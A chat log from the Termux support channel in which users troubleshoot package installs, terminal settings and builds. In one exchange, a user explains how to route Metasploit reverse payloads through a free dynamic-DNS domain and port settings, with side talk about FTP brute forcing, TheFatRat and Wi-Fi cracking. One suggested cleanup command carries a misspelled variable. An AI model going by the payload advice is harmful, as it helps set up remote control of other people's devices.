2017-07-30 12:08:42	gitter	(themastersunil) please  solve my issue.

2017-07-30 12:09:54	gitter	(Auxilus) Mayne your custom rom is messing with it, can you try it without the custom rom?

2017-07-30 12:10:33	gitter	(Techzindia) @Auxilus  ya @vishalbiswas  also A great man he make A  Easy Method For this

2017-07-30 12:11:35	gitter	(Auxilus) @Techzindia subscribed 😊

2017-07-30 12:12:15	gitter	(Techzindia) @Auxilus  i copy a com.termux folder only included python,python2 but how  i help @themastersunil

2017-07-30 12:12:46	gitter	(Techzindia) @Auxilus  Thanks For Supporting 😄

2017-07-30 12:13:23	gitter	(Auxilus) @Techzindia there must be problem with his rom, cz if he cant install it via `apt install python` then building it from source could also fail

2017-07-30 12:14:34	gitter	(Auxilus) @Techzindia you got nice views man

2017-07-30 12:14:53	gitter	(Auxilus) What language do you talk in?

2017-07-30 12:16:42	gitter	(Auxilus) Looks like termux is in high demand these days :p

2017-07-30 12:16:51	gitter	(Techzindia) India national language "hindi"

2017-07-30 12:17:21	gitter	(Techzindia) Ya @Auxilus  Termux is A high demand in a last few months

2017-07-30 12:17:28	gitter	(Auxilus) 'k

2017-07-30 12:17:49	gitter	(Techzindia) @Auxilus but where Are You From? 😊

2017-07-30 12:17:51	gitter	(themastersunil) My rom is flyme 6

2017-07-30 12:17:52	gitter	(Auxilus) Wha? I see technical sherma made a video about termux

2017-07-30 12:18:59	gitter	(Auxilus) @themastersunil we haven't tested termux on custom roms ( i got oxygen os, but it seems to work on my device) maybe ask @fornwall or @vishalbiswas

2017-07-30 12:19:00	gitter	(themastersunil) @Auxilus can i copy other phone *com.termux folder into my phone,  with python

2017-07-30 12:19:24	gitter	(Techzindia) Ya And Also a "vasu chauhan" named​ channel Copy my Content...

2017-07-30 12:19:37	gitter	(themastersunil) 😂

2017-07-30 12:19:38	gitter	(Auxilus) Aye, you can, but not sure if even then you can run python

2017-07-30 12:19:56	gitter	(themastersunil) why?

2017-07-30 12:20:17	gitter	(Auxilus) You can try tho

2017-07-30 12:20:38	gitter	(Auxilus) Installation fails means something is going wrong in there

2017-07-30 12:20:38	gitter	(themastersunil) okk I'll  try,  but my phone  is no rooted.

2017-07-30 12:20:58	gitter	(Techzindia) @Auxilus  I use Termux With Custom Rom #AOSP Extended and i use LenovoA6000 but my stock rom is too borring

2017-07-30 12:22:17	gitter	(themastersunil) @Techzindia check my whatsapp msg.

2017-07-30 12:24:50	gitter	(themastersunil) @Auxilus Please  solve my issues

2017-07-30 12:25:12	gitter	(themastersunil) @Auxilus python2 is install proper

2017-07-30 12:25:36	gitter	(themastersunil) but python 3.6 is not install......

2017-07-30 12:40:19	gitter	(Auxilus) Whats the error in python 3.6?

2017-07-30 13:04:35	gitter	(themastersunil) 96% complete...... Not work it not complet 100%

2017-07-30 13:05:33	gitter	(themastersunil) it not complet 100%

2017-07-30 13:13:42	gitter	(themastersunil) ecting previously unselected package openssl.

2017-07-30 13:13:42	gitter	(themastersunil) Preparing to unpack .../openssl_1.0.2l_aarch64.deb ...

2017-07-30 13:13:42	gitter	(themastersunil) Unpacking openssl (1.0.2l) ...

2017-07-30 13:13:42	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=597e13c22723db8d5e5cf646]

2017-07-30 13:13:56	gitter	(themastersunil) @Auxilus see

2017-07-30 13:14:16	gitter	(themastersunil) 96% after not complet 100%

2017-07-30 13:14:35	gitter	(themastersunil) or my phone lag

2017-07-30 13:20:28	gitter	(themastersunil) anyone is here????

2017-07-30 13:22:56	gitter	(themastersunil) $ pkg search python

2017-07-30 13:22:56	gitter	(themastersunil) Hit:1 http://termux.net stable InRelease

2017-07-30 13:22:56	gitter	(themastersunil) E: dpkg was interrupted, you must manually run 'dpkg --configure -a' to correct the problem.

2017-07-30 13:22:56	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=597e15ef4bcd78af56fb9a81]

2017-07-30 13:23:26	gitter	(themastersunil) No any response.......

2017-07-30 13:29:16	gitter	(Auxilus) Not a lag

2017-07-30 13:30:32	gitter	(Auxilus) @themastersunil  Must be some problem regarding your rom, best way is to create issue on github

2017-07-30 13:31:59	gitter	(vishalbiswas) not a problem with rom. uninstall python and remove $PREFIX/lib/python36 and reinstall

2017-07-30 13:55:25	sdrausty	@vishalbiswas I want more space on device and I think you do too what do you think of issue 1176

2017-07-30 13:56:50	sdrausty	in termux-packages?

2017-07-30 13:58:01	sdrausty	I have rewritten #1176 the clarify it.

2017-07-30 13:58:19	sdrausty	the *to

2017-07-30 13:58:55	gitter	(themastersunil) @vishalbiswas my phone is not rooted,  how can i remove this $PRWFIX/lib/python36

2017-07-30 13:59:59	sdrausty	`rm -rf $PRWFIX/lib/python36`

2017-07-30 14:00:13	gitter	(themastersunil) 😃

2017-07-30 14:01:46	gitter	(themastersunil) I'll apply this command in cd dir..

2017-07-30 14:03:16	sdrausty	That is where it should be applied. I am glad to hear that your phone is not rooted. We loose too many phones that way. 

2017-07-30 14:04:35	gitter	(themastersunil) 😂

2017-07-30 14:04:42	sdrausty	Now making an OS (Operating System) in Termux for your smartphone and flashing it from the SD card. That is a completely different topic:)

2017-07-30 14:04:57	sdrausty	https://plus.google.com/104092656004159577193/posts/4QGxJc3Ft3N

2017-07-30 14:08:09	sdrausty	How feasible is it to build http://www.cyanogenmods.org in Termux?

2017-07-30 14:08:20	sdrausty	Anyone?

2017-07-30 14:15:57	gitter	(Ashish882) Hi

2017-07-30 14:20:11	gitter	(Auxilus) How can i remove the intro message whem

2017-07-30 14:20:12	gitter	(Auxilus) When i start new session?

2017-07-30 14:21:30	gitter	(sdrausty) @Ashish882 Hello

2017-07-30 14:21:35	gitter	(Ashish882) Hi

2017-07-30 14:21:53	gitter	(sdrausty) @Ashish882 How are you?

2017-07-30 14:22:00	gitter	(Ashish882) Fine

2017-07-30 14:22:27	gitter	(Auxilus) @sdrausty

2017-07-30 14:22:33	gitter	(Auxilus) Any idea?

2017-07-30 14:22:34	gitter	(Ashish882) Is there any way to forward my IP free for 30 day or more

2017-07-30 14:22:51	gitter	(Ashish882) To use in metasploit

2017-07-30 14:22:52	gitter	(Auxilus) Noip website

2017-07-30 14:22:53	gitter	(sdrausty) @Ashish882 Great 😀 How is Termux working for you?

2017-07-30 14:23:00	gitter	(Ashish882) Nice...

2017-07-30 14:23:22	gitter	(Auxilus) @sdrausty any idea how can i get rid of intro message?

2017-07-30 14:24:12	gitter	(Auxilus) @Ashish882 you can use noip website ( I often use it for Metasploit)

2017-07-30 14:24:36	gitter	(Ashish882) In termux

2017-07-30 14:24:51	gitter	(Ashish882) How you use it in termux

2017-07-30 14:25:00	gitter	(Ashish882) I get error

2017-07-30 14:25:50	gitter	(Ashish882) @Auxilus I put in lhost : myhostname.ddns.net or lport 4444

2017-07-30 14:26:15	gitter	(Ashish882) Or in lisner my public IP or lport 4444

2017-07-30 14:26:29	gitter	(Ashish882) But it don't work

2017-07-30 14:26:39	gitter	(Ashish882) @Auxilus

2017-07-30 14:26:44	gitter	(Ashish882) Help bro

2017-07-30 14:27:05	gitter	(sdrausty) @Auxilus I thought I saw that as a topic at https://github.com/termux/termux-app/issues checked, but couldn't find it. Post an issue about modifying the (or customizing) the intro message please.

2017-07-30 14:27:32	gitter	(Auxilus) Register a domain name on noip ( free ofc), then put your dynamic ip in domain settings (you can get your dynamic by searching 'whats my ip' on google)

2017-07-30 14:28:08	gitter	(Auxilus) @sdrausty got solution

2017-07-30 14:28:23	gitter	(Ashish882) OK I try

2017-07-30 14:28:33	gitter	(sdrausty) @Ashish882 That's good to hear we are happy Termuxers.

2017-07-30 14:28:38	gitter	(Auxilus) @Ashish882 then use domain `yourdomain. hopto.com` etc in msfvenom

2017-07-30 14:28:47	gitter	(Ashish882) Hmmm

2017-07-30 14:28:52	gitter	(Ashish882) Or lport

2017-07-30 14:30:55	gitter	(Ashish882) @Auxilus in lisner I have to put my dynamic IP

2017-07-30 14:31:34	gitter	(Auxilus) And in exploit settings inside Metasploit use your LAN ip as LHOST

2017-07-30 14:32:26	gitter	(Ashish882) Yes but lport

2017-07-30 14:32:30	gitter	(Ashish882) 4444

2017-07-30 14:32:40	gitter	(Auxilus) In listner, use yo local LAN ip

2017-07-30 14:32:59	gitter	(Auxilus) Lport can be anything

2017-07-30 14:33:40	gitter	(Auxilus) Ofc lport in msfvenom and exploit settings should be same

2017-07-30 14:33:51	gitter	(Ashish882) OK

2017-07-30 14:33:53	gitter	(Ashish882) Thanks

2017-07-30 14:34:08	gitter	(Auxilus) Its a good practice to use a non assigned port for personal use

2017-07-30 14:34:16	gitter	(Auxilus) You can use port 65000

2017-07-30 14:34:21	gitter	(Ashish882) OK

2017-07-30 14:34:37	gitter	(Ashish882) Now it will work for 30 days

2017-07-30 14:34:43	gitter	(Auxilus) Cz 4444 might have some service running on it

2017-07-30 14:34:53	gitter	(Ashish882) Hmm

2017-07-30 14:35:02	gitter	(Auxilus) Nah, your domain will be live for 30 days

2017-07-30 14:35:38	gitter	(Auxilus) But you have to reset domain setting with yo new dynamic ip and create new payload each time you change ip

2017-07-30 14:36:00	gitter	(Ashish882) Ohh no

2017-07-30 14:36:14	gitter	(Ashish882) Then ngrok is better

2017-07-30 14:36:24	gitter	(Auxilus) Dude, hackings not that easy

2017-07-30 14:36:34	gitter	(Ashish882) I know

2017-07-30 14:37:01	gitter	(Auxilus) Ngrok might fail if you are running ftp brute or something else

2017-07-30 14:37:23	gitter	(Ashish882) @Auxilus do you know other tools of m metasploit

2017-07-30 14:37:26	gitter	(Ashish882) OK

2017-07-30 14:37:46	gitter	(sdrausty) @Ashish882

2017-07-30 14:38:04	gitter	(sdrausty) https://en.m.wikipedia.org/wiki/Dynamic_DNS

2017-07-30 14:38:35	gitter	(Auxilus) Tho it can forward port, even then also you have to create new payload

2017-07-30 14:38:35	gitter	(Auxilus) Or else

2017-07-30 14:38:35	gitter	(Auxilus) You can buy static ip from your isp

2017-07-30 14:38:58	gitter	(Ashish882) Hmm

2017-07-30 14:40:55	gitter	(Ashish882) Where I know about uses of other tools of metasploit

2017-07-30 14:42:11	gitter	(sdrausty) @Ashish882 ATT has IP8 They give you a block of IPs

2017-07-30 14:42:51	gitter	(Ashish882) Mean

2017-07-30 14:42:54	gitter	(sdrausty) It used to be quite cheap addon

2017-07-30 14:43:06	gitter	(Auxilus) Im not sure how much ATT is providing service in India

2017-07-30 14:43:15	gitter	(sdrausty) OK

2017-07-30 14:43:22	gitter	(Ashish882) What is ATT

2017-07-30 14:43:47	gitter	(Auxilus) @Ashish882 either YouTube or on therir own site offensive security

2017-07-30 14:44:33	gitter	(Ashish882) OK

2017-07-30 14:45:13	gitter	(sdrausty) https://www.att.com Used to be the only phone service in the USA. Now there are many phone service providers.

2017-07-30 14:45:24	gitter	(Auxilus) AT&T bto

2017-07-30 14:45:32	gitter	(Auxilus) *bro

2017-07-30 14:45:57	gitter	(sdrausty) Yeah AT&T

2017-07-30 14:46:57	gitter	(Auxilus) U from states @sdrausty?

2017-07-30 14:47:02	gitter	(Ashish882) Can we make payload anymousely

2017-07-30 14:47:24	gitter	(sdrausty) @Auxilus Yes, where are you?

2017-07-30 14:47:50	gitter	(Auxilus) India

2017-07-30 14:48:04	gitter	(Auxilus) Which state? @sdrausty

2017-07-30 14:48:59	gitter	(sdrausty) Cool. I have always wanted to visit India and Nepal. I wonder if it will ever happen.

2017-07-30 14:49:30	gitter	(Auxilus) Im coming to states in 4 yrs

2017-07-30 14:49:38	gitter	(Auxilus) Maybe I'll make

2017-07-30 14:50:11	gitter	(Auxilus) Maybe i can arrange tript for ya

2017-07-30 14:50:15	gitter	(Ashish882) Techzindia

2017-07-30 14:50:34	gitter	(Auxilus) I need MS

2017-07-30 14:50:54	gitter	(sdrausty) I have lived in a number of beautiful states. Now I am in the Great Lake State, Michigan. I really enjoyed California.

2017-07-30 14:51:05	gitter	(Auxilus) I heard you guys at us dont need degree to get a job

2017-07-30 14:51:11	gitter	(Ashish882) How to use this msfrpcd

2017-07-30 14:51:25	gitter	(sdrausty) @Auxilus Maybe

2017-07-30 14:53:07	gitter	(Auxilus) Mah man was a flight officer of skme kind at airport, he left the job, now he works at credit card company, he doesn't have a degree, no connection between these two jobs

2017-07-30 14:54:25	gitter	(sdrausty) @Auxilus Degrees are important.

2017-07-30 14:55:00	gitter	(sdrausty) @Auxilus That is an exception to the rule.

2017-07-30 14:55:30	gitter	(Auxilus) Thats why imma take 1 in mechanical engineering , just in case i get failed to persue astrophysics

2017-07-30 14:55:45	gitter	(Auxilus) Typical indian middle class mentality

2017-07-30 14:59:51	gitter	(Auxilus) @vishalbiswas how do i clear my command history?

2017-07-30 15:00:01	gitter	(Ashish882) @Auxilus @sdrausty  where you learn hacking self

2017-07-30 15:09:28	gitter	(sdrausty) @Ashish882 I didn't understand what you are said.

2017-07-30 15:10:38	gitter	(sdrausty) @Auxilus Your MS should make your life easier.

2017-07-30 15:13:14	sdrausty	are *

2017-07-30 15:21:10	gitter	(themastersunil) Unpacking libffi (3.2.1-2) ...

2017-07-30 15:21:11	gitter	(themastersunil) Selecting previously unselected package libsqlite.

2017-07-30 15:21:11	gitter	(themastersunil) Preparing to unpack .../libsqlite_3.19.3-1_aarch64.deb ...

2017-07-30 15:21:11	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=597e31a7f5b3458e309693d6]

2017-07-30 15:21:50	gitter	(themastersunil) sir, i applied  your command before  installing  python but now you can see..

2017-07-30 15:23:32	gitter	(themastersunil) This command  I've  applied  before  installing  python-rm -rf $PRWFIX/lib/python36

2017-07-30 15:23:52	gitter	(themastersunil) rm -rf $PRWFIX/lib/python36

2017-07-30 15:24:01	gitter	(themastersunil) still problem

2017-07-30 15:49:43	gitter	(themastersunil) $ cd $PREFIX/lib/python36

2017-07-30 15:49:43	gitter	(themastersunil) bash: cd: /data/data/com.termux/files/usr/lib/python36: No such file or directory

2017-07-30 15:49:43	gitter	(themastersunil) $ pwd

2017-07-30 15:49:43	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=597e3857a7b406262d440711]

2017-07-30 15:53:32	gitter	(themastersunil) $ pwd

2017-07-30 15:53:32	gitter	(themastersunil) /data/data/com.termux/files/home

2017-07-30 15:53:32	gitter	(themastersunil) $ $PREFIX/lib/python36

2017-07-30 15:53:32	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=597e393c4bcd78af56fc0a88]

2017-07-30 15:53:43	gitter	(themastersunil) No response...

2017-07-30 15:54:34	gitter	(themastersunil) @vishalbiswas please  help  me😥😞

2017-07-30 16:01:33	gitter	(Grimler91) @themastersunil try running python in verbose mode: `python -v` it should give you more information about where it gets stuck

2017-07-30 21:25:58	live_the_dream	ffs .... phone power button is broken its randomly behaving as if power button is on

2017-07-30 21:43:40	gitter	(themastersunil) @TermuxBot No, my power button  is working  properly...

2017-07-30 22:07:05	sdrausty	live_the_dream: Is your phone rooted?

2017-07-30 22:51:33	gitter	(Auxilus) Dude @Techzindia volume_down key works as control key in termux and volume_up key is alt key, if you press crtl+Q, you will get function keys right above your keyboard, so now, you dont have to change your keyboard each time in video

2017-07-30 23:02:51	live_the_dream	yes its rooted

2017-07-30 23:04:47	sdrausty	live_the_dream: thank you

2017-07-30 23:07:14	gitter	(themastersunil) @TermuxBot Now my phone is rooted.

2017-07-30 23:15:08	sdrausty	Mine will remain, unrooted.

2017-07-30 23:16:23	sdrausty	I have a live brick. It used to be a smartphone until I tried unrooting it...

2017-07-30 23:19:57	gitter	(Auxilus) Im pretty silly about rooting, Im in restaurant, my friend goes "yo dude, there is wifi in here, can you do some' about it?"

2017-07-30 23:25:15	gitter	(themastersunil) Okk

2017-07-30 23:25:29	gitter	(themastersunil) Which issue #?

2017-07-30 23:25:40	gitter	(themastersunil) #12345

2017-07-30 23:26:40	gitter	(Auxilus) Go to http://github.com/termux/termux-packages/issues

2017-07-30 23:26:57	gitter	(Auxilus) There should be `+` in right upper corner

2017-07-30 23:27:36	gitter	(Auxilus) Use that to create new issue

2017-07-30 23:27:55	gitter	(Auxilus) Add screenshot and your rom details too

2017-07-30 23:34:00	gitter	(themastersunil) python 3.6.2 installation issue #1184

2017-07-30 23:34:35	gitter	(Auxilus) Aye, just saw

2017-07-30 23:39:16	gitter	(themastersunil) so,  what will do developer???

2017-07-31 00:04:57	live_the_dream	iv never bricked a phone

2017-07-31 00:13:08	gitter	(vishalbiswas) What corrsponds to bricking? A phone is only truly bricked if both its primary and secondary bootloaders are corrupted.

2017-07-31 00:21:36	jrmu	I'd like to get vim support for taking notes, and maybe a man page reader, but I don't want to install too large of an environment (I don't want an entire linux distro on my phone). Is termux right for me?

2017-07-31 00:22:56	gitter	(vishalbiswas) jrmu: Yes, just download termux. It'll bootstrap first, only minimum packages. Then `apt install vim`

2017-07-31 00:24:51	gitter	(Auxilus) @vishalbiswas can we have command `termux-sms-all`

2017-07-31 00:25:12	gitter	(Auxilus) Cz looks like we only have command that cats out inbox

2017-07-31 00:27:31	gitter	(vishalbiswas) @Auxilus Create an issue at https://www.github.com/termux/termux-api

2017-07-31 00:39:44	jrmu	gitter: thanks. This looks like a very cool project

2017-07-31 00:40:08	gitter	(vishalbiswas) jrmu: wait until you get hooked

2017-07-31 00:42:40	jrmu	vishalbiswas: :)

2017-07-31 00:43:22	live_the_dream	@vishalbiswas there are some bricks you can't recover from

2017-07-31 00:43:26	live_the_dream	it won't boot anymore

2017-07-31 00:45:04	live_the_dream	welp disabled power button in android

2017-07-31 00:46:02	gitter	(Auxilus) https://github.com/termux/termux-api/issues/1028

2017-07-31 00:46:13	gitter	(vishalbiswas) first thing to do after rooting is creating a nandroid backup. I was too new the first time around. ended up flashing my stock rom

2017-07-31 00:46:44	gitter	(vishalbiswas) anyways retrying mongodb, but with wiredtiger disabled

2017-07-31 00:49:01	gitter	(Auxilus) @vishalbiswas any chances of making Wireshark to use android's wifi module rather that keep scanning for external wifi card?

2017-07-31 00:49:20	gitter	(vishalbiswas) but what about the gui?

2017-07-31 00:49:24	gitter	(Auxilus) Oops

2017-07-31 00:49:47	gitter	(Auxilus) I mean aircrack-ng not Wireshark

2017-07-31 00:50:42	gitter	(vishalbiswas) you need a wifi driver that does monitor mode. then `insmod` that driver (requires root)

2017-07-31 00:51:08	gitter	(Auxilus) Android aint got that driver?

2017-07-31 00:51:31	gitter	(vishalbiswas) only select few, others you have to compile from source

2017-07-31 00:51:46	gitter	(vishalbiswas) been there, done that, hated my life

2017-07-31 00:51:54	gitter	(Auxilus) Kk

2017-07-31 00:51:59	gitter	(Auxilus) https://github.com/intercepter-ng

2017-07-31 00:52:17	gitter	(Auxilus) I used this app on my device, works well

2017-07-31 00:52:40	gitter	(Auxilus) I'd like to have it in termux,

2017-07-31 00:54:12	gitter	(Auxilus) Looks like its app, not a package... 😅

2017-07-31 00:56:29	gitter	(Auxilus) Can we get gui in termux?

2017-07-31 00:57:09	gitter	(vishalbiswas) that's a lot of extra baggage

2017-07-31 00:58:28	gitter	(Auxilus) Ye, @fornwall must have to resign his current job and work on termux to get it done

2017-07-31 00:58:50	gitter	(Auxilus) I'm cool with non gui tho

2017-07-31 00:59:02	gitter	(Auxilus) Gui is for noobs :p

2017-07-31 01:01:08	gitter	(vishalbiswas) not exactly, its a community effort and I already have it working in termux. its just that you need to have a lot of useless dependencies installed.

2017-07-31 01:07:51	gitter	(Auxilus) You got gui @vishalbiswas?

2017-07-31 01:08:01	gitter	(vishalbiswas) libx11 and vnc

2017-07-31 01:08:17	gitter	(Auxilus) I can use some gui if you can tell me how I can enable em

2017-07-31 01:08:58	gitter	(vishalbiswas) you'll need to compile some 50 packages yourselves and install them

2017-07-31 01:09:10	gitter	(Auxilus) Sure, i can try that

2017-07-31 01:17:47	gitter	(vishalbiswas) boost

2017-07-31 01:18:04	gitter	(vishalbiswas) i have a package that requires boost for compilation

2017-07-31 01:18:19	gitter	(vishalbiswas) but not for linking

2017-07-31 01:19:01	gitter	(vishalbiswas) great, missing PKGBUILD's makedepends

2017-07-31 01:20:47	gitter	(vishalbiswas) is it allowed to run ./build-package.sh boost inside your build.sh?

2017-07-31 01:21:19	gitter	(vishalbiswas) I guess not. It will also package boost files inside the calling package's deb then

2017-07-31 01:39:23	live_the_dream	what you can do is add it to dependencies then change the control file that lists dependencies at the end of the build

2017-07-31 01:40:57	gitter	(vishalbiswas) ```

2017-07-31 01:40:57	gitter	(vishalbiswas) src/mongo/db/fts/unicode/string.cpp:277:80: error: invalid operands to binary expression ('std::pair<const char *, const char *>' and 'mongo::StringData::const_iterator'

2017-07-31 01:40:57	gitter	(vishalbiswas)       (aka 'const char *'))

2017-07-31 01:40:57	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=597ec2e7329651f46ed87e9a]

2017-07-31 02:10:45	gitter	(Techzindia) is kali Chroot Run in Termux? like fedora, Ubuntu chroot....

2017-07-31 02:20:04	gitter	(Auxilus) There is `termux-chroot`

2017-07-31 02:20:11	gitter	(Auxilus) @Techzindia

2017-07-31 02:23:35	gitter	(themastersunil) #1166

2017-07-31 03:26:56	gitter	(suryapoo) Hey peeps...if someone forked my repo on github and I want the new changes that he made to my files...how would  I download the files from termux using git?

2017-07-31 03:28:50	gitter	(Auxilus) I think  `git pull` is the command for that purpose Google it

2017-07-31 05:30:18	frumpylava	live_the_dream: Why is ncmpcpp compiled with `-DNCURSES_WIDECHAR`? What does that do? I'm trying to investigate why this newfangled internet music, that does Ｆｕｌｌ Ｗｉｄｔｈ Ｃｈａｒａｃｔｅｒｓas a meme, messes up ncmpcpp.

2017-07-31 06:22:23	live_the_dream	the easy answer is it doesn't compile without it and our ncurses should in fact suport it

2017-07-31 06:23:46	live_the_dream	you using arm or aarch64?

2017-07-31 06:25:32	live_the_dream	finally getting new server

2017-07-31 06:27:06	live_the_dream	how exactly is it breaking?

2017-07-31 06:47:32	frumpylava	live_the_dream: https://oliverse.ch/share/Screenshot_20170731-124624.png

2017-07-31 06:51:00	live_the_dream	there is a guy saying fish and utf characters is broken.

2017-07-31 06:52:30	frumpylava	zsh seems fine with them

2017-07-31 06:55:47	jrmu	if I understand correctly, termux uses apt from debian? So the downloaded packages are signature verified just like apt from debian?

2017-07-31 06:55:47	jrmu	I'm going to be downloading from public wifi, I need to make sure this is safe

2017-07-31 06:56:23	live_the_dream	the original bootstrap is done via https

2017-07-31 06:56:46	live_the_dream	if the pkgs aren't signed they won't work

2017-07-31 06:57:03	live_the_dream	ao people will know you are downloading pkgs

2017-07-31 06:57:20	live_the_dream	but thwy will be un tampered with

2017-07-31 06:57:50	jrmu	it's fine, I don't mind if they know, I just need to make sure they haven't been tampered with

2017-07-31 06:58:05	live_the_dream	the trusted.gpg is the thing../

2017-07-31 06:58:55	jrmu	can I search trusted.gpg for the public key?

2017-07-31 06:59:26	live_the_dream	if it matches proper key

2017-07-31 06:59:52	jrmu	it would be nice to see either a link of the public key or some documentation somewhere showing me how it all works

2017-07-31 07:00:53	jrmu	ah, I see it even has man pages for apt. OK, great :)

2017-07-31 07:00:53	jrmu	live_the_dream: thanks for your help, I'll keep digging to see if I can find more documentation on this

2017-07-31 07:06:05	live_the_dream	if you really want to ... look at the source or read from apts developers.

2017-07-31 07:06:49	gitter	(Auxilus) Frumpylava : what kind of termux window is that in that screenshot? How you got those tab numbers over the top of terminal?

2017-07-31 07:15:32	frumpylava	You can also install apt-transport-https, so the packages itself are transmitted via https.

2017-07-31 07:16:41	frumpylava	@Auxilus That is tmux. Fully themed out.

2017-07-31 07:17:24	gitter	(Auxilus) I use tmux, but dont know how to theme it

2017-07-31 08:34:31	frumpylava	live_the_dream: Hey why does ncmpcpp disable SIGWINCH?

2017-07-31 08:34:39	frumpylava	live_the_dream: https://github.com/termux/termux-packages/blob/master/packages/ncmpcpp/ncmpcpp.cpp.patch#L10

2017-07-31 08:44:16	gitter	(Auxilus) What is default value of $TERM?

2017-07-31 08:45:20	gitter	(Auxilus) Auxilus@localhost : export TERM=Xterm-256colour

2017-07-31 08:45:20	gitter	(Auxilus) zsh: can't find terminal definition for Xterm-256colour

2017-07-31 08:45:20	gitter	(Auxilus) Auxilus@localhost :

2017-07-31 08:45:53	gitter	(Auxilus) Plz help me

2017-07-31 08:46:03	gitter	(Auxilus) My terminal broke

2017-07-31 08:46:30	frumpylava	export TERM=xterm-256color

2017-07-31 08:47:07	frumpylava	@Auxilus you can also restart your shell. This change isn't permanent.

2017-07-31 08:47:16	gitter	(Auxilus) Ty man

2017-07-31 08:47:36	gitter	(Auxilus) Can you tell me how you moded tmux?

2017-07-31 09:00:04	frumpylava	@Auxilus. It's just a config file ~/.tmux.conf. You can google around and find tons of them.

2017-07-31 09:30:31	BenL90	Hello, I just create the article about Termux, maybe anyone wanna see it. http://www.tahutek.net/2017/07/termux-terminal-emulator-and-real-linux.html

2017-07-31 09:32:07	BenL90	That's the link, for now I just do a light code on termux, btw thanks for creating a such great terminal emulator and linux environment for android. I'm welcome for the other video that yesterday I got from a people from Germany, I mean talk about termux, but after it's subbed, then I'll put it on my blog. Thanks again btw.

2017-07-31 09:37:40	sdrausty	BenL90: Nice article. I have two recommendations for you from my quick review.

2017-07-31 09:39:41	sdrausty	Freenode *#termux on Freenode

2017-07-31 09:40:18	sdrausty	pkg install <nama program> *`pkg install <nama program>`

2017-07-31 09:41:29	gitter	(sdrausty) Use ``` to get the `code quotes`

2017-07-31 09:41:48	gitter	(sdrausty) `

2017-07-31 09:41:57	BenL_	sdrausty I see,

2017-07-31 09:42:07	BenL_	Okay I'll Check it

2017-07-31 09:42:26	gitter	(sdrausty) Thank you for writing about Termux.

2017-07-31 09:53:53	gitter	(kuburan) @TermuxBot BenL90: nice article gan.

2017-07-31 11:51:58	sdrausty	I'd like some feedback for https://github.com/termux/termux-packages/issues/1176 please.

2017-07-31 11:52:18	sdrausty	Does Anyone Want to Have More Native Space on Device? #1176

2017-07-31 11:58:07	endre	sdrausty: what's the use case for this?

2017-07-31 11:58:15	endre	i'm just curious

2017-07-31 12:16:24	sdrausty	endre: More native filespace on device for Termux:)

2017-07-31 12:21:27	sdrausty	Even though this is a fairly simple issue in Linux (create file > format filesystem in file > mount filesystem in file via loop device), it is impossible in Termux at present.

2017-07-31 12:52:59	gitter	(Ashish882) Hi

2017-07-31 12:53:15	gitter	(Ashish882) Anyone

2017-07-31 12:53:43	gitter	(Ashish882) How to install TheFatRat in Termux without error

2017-07-31 13:04:41	gitter	(Auxilus) @Ashish882 Have you tried compiling it from source?

2017-07-31 13:05:11	gitter	(Ashish882) Git clone

2017-07-31 13:05:44	gitter	(Ashish882) Just tell me only that it work in termux or not

2017-07-31 13:06:10	gitter	(Auxilus) @Ashish882 i haven't tried man..

2017-07-31 13:06:38	gitter	(Ashish882) Can you try bro

2017-07-31 13:07:18	gitter	(Auxilus) Sure, gimme like 5 minutes

2017-07-31 13:08:37	gitter	(Ashish882) OK

2017-07-31 13:20:28	gitter	(Ashish882) Bhai od

2017-07-31 14:16:42	gitter	(Techzindia) I just try but its Require Too many Packages That Not Available In Termux

2017-07-31 14:16:47	gitter	(Techzindia) ________         __  __________          __     \_   _____/_____  _/  |_\______   \_____  _/  |_

2017-07-31 14:16:47	gitter	(Techzindia)  |    __)  \__  \ \   __\|       _/\__  \ \   __\

2017-07-31 14:16:47	gitter	(Techzindia)  |     \    / __ \_|  |  |    |   \ / __ \_|  |

2017-07-31 14:16:47	gitter	(Techzindia) [full message: https://gitter.im/termux/termux?at=597f740ec101bc4e3ad7e86d]

2017-07-31 14:17:17	gitter	(Techzindia) -e \e[0;32m [ ! ] Installing dedendencies for ruby script

2017-07-31 14:17:18	gitter	(Techzindia) setup.sh: 260: setup.sh: xterm: not found

2017-07-31 14:17:18	gitter	(Techzindia) -e \e[0;32m [ ✔ ] Done installing ....

2017-07-31 14:17:18	gitter	(Techzindia) [full message: https://gitter.im/termux/termux?at=597f742d210ac26920408bb9]

2017-07-31 14:17:57	gitter	(Techzindia) @TermuxBot  What Is Mingw32 ?

2017-07-31 17:49:22	gitter	(fornwall) @vishalbiswas we could add build dependency (for e.g. boost), it should be straightforward

2017-07-31 18:04:34	ibanhb	Hola

2017-07-31 18:04:51	ibanhb	Me interesa este emulator

2017-07-31 18:10:50	ibanhb	Exit

2017-07-31 18:13:38	live_the_dream	hehe

2017-07-31 18:34:43	live_the_dream	you can add that line back frumpylava

2017-07-31 18:35:12	live_the_dream	i think it was there due to some peoples small screens

2017-07-31 18:35:45	live_the_dream	if i remember correctly

2017-07-31 18:37:58	live_the_dream	which i probably don't since i just woke uo

2017-07-31 18:40:57	live_the_dream	probably best to put that back frumpylava

2017-07-31 18:54:08	live_the_dream	so yeah only comment out line above that instead of both

2017-07-31 20:11:32	Evolution	out of curiosity, how does one disable the hotkeys on a chromebook?

2017-07-31 20:12:00	Evolution	I'm finding that for things like irssi the traditional alt+number triggers a hotkey, rather than a window switch

2017-07-31 20:12:08	Evolution	I'd very much like that to not be the case

2017-07-31 20:12:08	cottongin	can't yet

2017-07-31 20:12:14	Evolution	ugh

2017-07-31 20:12:26	cottongin	use esc-#

2017-07-31 20:12:30	sdrausty	https://github.com/termux/termux-packages/issues/1176

2017-07-31 20:12:39	sdrausty	Has been updated

2017-07-31 20:12:44	cottongin	annoying but works

2017-07-31 20:12:51	sdrausty	Does Anyone Want to Have More Native Space on Device?

2017-07-31 20:13:45	sdrausty	Hi

2017-07-31 20:16:25	Evolution	okay, so asking a different way then, does termux allow docking to one side of the screen? alt-leftbracket for example seems to not work

2017-07-31 20:16:42	Evolution	it seems to be an off sliver, or full screen

2017-07-31 20:16:47	Evolution	I don't see how to resize it

2017-07-31 20:17:31	cottongin	Android app window resizing isn't supported _yet_ on chromeos

2017-07-31 20:18:14	cottongin	aside from full screen and the default sizes for landscape/portrait
